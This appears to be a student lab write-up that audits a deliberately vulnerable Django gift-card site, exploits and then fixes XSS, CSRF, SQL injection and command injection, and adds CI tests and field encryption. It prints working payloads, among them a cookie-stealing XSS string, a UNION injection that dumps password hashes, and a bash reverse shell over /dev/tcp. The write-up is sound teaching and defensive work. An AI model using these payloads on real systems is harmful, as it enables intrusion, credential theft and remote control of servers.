# Part 1: Auditing and Test Cases

## Task 1: Cross-Site Scripting (XSS)
---
### Task 1.a

 
In order to find the presence of the vulnerability we have to look for input fields or URLs that accept parameters. We then try to inject XSS payloads in every field in order to check for the presence of the vulnerability.

In our case the <b>username</b> field on the gift page was vulnerable. On using payload `svg/onload=prompt(document.cookie)` we get the below result thus conforming that the vulnerability exists.

Here, we cannot see the cookie because the HttpOnly field is set to true. HttpOnly is a flag used in the Set-Cookie response header to prevent a client side scripts from accessing the sensitive cookie.

If we edit the field manually inside the browser and set it to false we will be able to see the cookie.



### Task 1.b
---
Below is the script I used to check for the presence of the XSS vulnerability. It first logs in, injects the payload and then checks if our payload appears in the server response we know that the website is vulnerable to XSS.



### Task 1.c
---
In order to mitigate the vulnerability we have to sanitize the input. For this we use `urllib.parse.quote()` function. This function will replace all the special characters in the payload with %xx equivalent. Eg: <,> will get replaced with %3C and %3E respectively. 



After using the above function and trying to inject the same payload we get the following output, thus mitigating the XSS vulnerability.

### Task 1.d
---
Below is the snip from the output of our updated script.



The exploit script can be found [here](../ank8821-xss.py)
 
 
### Final Exploit after accommodating CSRF Mitigation
---


 

## Task 2: Cross-Site Request Forgery (CSRF)
---
### Task 2.a
 
In order to check for the presence of the vulnerability, we try to gift a card to user 'attacker' logged in as the user 'client'. When we intercept the request in burp we do not see any html elements like a csrf token that would potentially stop CSRF.



Now, in order to exploit the vulnerability we host a dummy webpage using **`php -S 127.0.0.1:8001`**. The webpage is designed to send a gift card to the attacker when the user client will click on the button. We can see in the burp proxy, the request that the webpage would make.



On forwarding the request we can see that attacker received the gift card.



### Task 2.b
---
In order to check for the presence of the vulnerability we merely check if we can find a HTML element with csrf_token. Below we can see that our script returns Vulnerable when it does not find the token.



### Task 2.c
---
In order to mitigate the vulnerability we use a site-wide mitigation token by adding `django.middleware.csrf.CsrfViewMiddleware` to the MIDDLEWARE variable inside settings.py file. We also add `` to the form inside gift.html in order to pass the csrfmiddleware token with every request.



Now when we try to execute the same attack we get the following error. Hence, we know that our mitigation worked.



### Task 2.d
---
Below is the output from the exploit after we have mitigated the vulnerability. The script also first checks if the CSRF mitigation has been correctly implemented.



The technique used to determine the state of vulnerability may not be ideal because we are only checking for the presence of the mitigation token in the server responses. The script does not actually try to exploit the vulnerability. There can be cases where the website is vulnerable despite the presence of the token.

The exploit script can be found [here](../ank8821-csrf.py)

Because of the mitigation, we also have to update our previous XSS script. The updated script can be found [here](#final-exploit-after-accommodating-csrf-mitigation)

## Task 3: Structured Query Language Injection (SQLi)
---
### Task 3.a
 
To find the vulnerability, when we open the bought giftcard file we see that there is a signature field in the file that expects a user to insert a signature of his choice. We then try to play around with the field trying to inject basic sql payloads.

In order to confirm the presence of the vulnerability, when we put ` ' or 1=1--` inside the signature and use the card, we get the following output on the server error page. The output displays all the cards our user has.



Now that we know that the signature field is vulnerable to SQL Injection we insert the below payload.
> `hello' union select username || '-' || password from LegacySite_user--`

This payload will display all the usernames and their passwords separated by a `'-'`
In the image below we can see the password hash of our own user attacker and also the password hash of the administrator. The vulnerable giftcard can be found [here](../ank8821-sqli.gftcrd)



### Task 3.b
---
Below is the output from our script. The script first logs in as attacker, and then sends the request to the server which includes the malicious giftcard. It then checks if the payload present in the giftcard is present in the server response. If it is it will output that the script is vulnerable to SQLi.



### Task 3.c
---
In order to mitigate the vulnerability, we first remove the quotes around %s in the query and pass the signature parameter as a list. Doing so will make the database driver will quote each parameter correctly, thus mitigating SQL Injection.



### Task 3.d
---
Below image shows the final exploit along with the output after we have implemented the SQLi mitigation technique.



The exploit script can be found [here](../ank8821-sqli.py)

# Task 4: Command Injection (CMDi)
### Task 4.a
 
On reviewing the views.py and extras.py we can see that the server, on getting a JSONDecodeError executes the 'giftcardreader' program using the system command and takes the name of the card as an input from the user.

In order to exploit the vulnerability, we first trigger a JSONDecodeError by remove a comma from the giftcard file and pass the payload `hi; ls -la;` as the name of the file in the input field.

On the server console we can see that the server executed our command, thus confirming that our command injection worked.



Now, to get a reverse shell we upload the same malicious giftcard file but this time we use the payload `hi; /bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/9001 0>&1';`. We also start a netcat listener on port 9001 before executing the attack. 



In the image below we can see that we received a reverse shell from the server.

The malicious giftcard an be found [here](../ank8821-cmdi.gftcrd)

### Task 4.b
---
In the image below we can see that our script logs in, starts a listener on port 9001. On successful execution of the attack we can see in the console output that we receive a connection from the server with the message we sent in the payload.



### Task 4.c
---
In order to mitigate the vulnerability, we sanitize the card_fname input by using shlex.quote() function. This will wrap our input inside quotes like `'hi; ls -la'`. Thus when the program will call the system function with the giftcardreader program, it treat our entire input as file name and thus no commands will be executed.

After using shlex.quote() we can see that the server only raises the JsonDecodeError and does not print the output of `ls -la.`



### Task 4.d
---
Below can see that after patching the vulnerability our program

The exploit script can be found [here](../ank8821-cmdi.py)

# Part 2: Automated Regression & Database Encryption
## Task 5: Continuous Integration and Development
---
Below is the snip of the script used to run our scripts every time code gets pushed onto the github server.



The script can be found [here](../.github/workflows/ank8821-regression.yml)

Below is a snip of the output our script produces.



## Task 6: Encrypting the Database
---
### Task 6.a
 
In order to implement database encryption we first install the `django-encrypted-model-fields` library. We then make the changes to our installed apps and we add a FIELD_ENCRYPTION_KEY variable inside settings.py.

The key can be generated using `sudo python3 manage.py generate_encryption_key`



We then use the library to encrypt the data in our database as shown in the below image.



Here, we can see that the encrypted data is not at all readable. In a situation where our database gets compromised, the encrypted data cannot be used without decrypting. If we keep the data unencrypted we can see that the attacker will be able to read every bit of information inside the database.

### Task 6.b
---

In order to rotate the encryption key, we take the following steps:
- Using our existing secret key, we first dump the data base using `manage.py dumpdata LegacySite.card -o datadump.json`. This command will decrypt the database table and store it inside datadump.json file.

- In the image below we can see that the data inside the database in encrypted, but the output of the json file is not encrypted.



- Next, we generate a new encryption key using `manage.py generate_encryption_key` command and replace the old encryption key in our settings.py file with the new one.

- We then use `manage.py loaddata datadump.json` to encrypt all the unencrypted data from the json file and load it inside the database. In the image below we can see that the data is now encrypted with the new encryption key. We can also compare the output of the previous image with the below one and see that the they are not the same, hence the data is encrypted with a different key.

In order to prevent access to the encryption key, we can store the key inside a .env file and then use `os.getenv()` command to fetch the key from the file. This way, the key is never exposed.